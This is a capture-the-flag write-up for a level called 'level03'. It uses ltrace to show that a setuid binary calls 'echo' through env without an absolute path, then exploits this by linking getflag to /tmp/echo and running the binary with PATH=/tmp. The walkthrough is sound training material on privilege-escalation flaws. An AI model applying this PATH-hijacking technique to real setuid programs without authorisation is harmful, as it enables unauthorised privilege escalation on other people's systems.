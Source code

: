 ## level03

This level introduces [linux binary analyzers](https://opensource.com/article/20/4/linux-binary-analysis)

Also, it's highly recommend to get fimiliar with [setgid, setuid and sticky bit](https://ruvds.com/ru/helpcenter/suid-sgid-sticky-bit-linux/)

First, looking at the level03 library-function traces.
```bash
ltrace ./level03
```

Result:
```C
...
system("/usr/bin/env echo Exploit me")
...
```

As the setuid bit is present, binary will be executed with the flag03 privileges.

We see that `echo` is not called with the absolute path. <br>
Also, the enviroment obtained from the env call. <br>
These lead us to the idea, that we can exploit it using binary substitution.<br>
```bash
# 1. Creating symbolic link to getflag from echo 
ln -s /bin/getflag /tmp/echo

# 2. Calling executable replacing the path where the executable file will be searched
PATH=/tmp ./level03
```
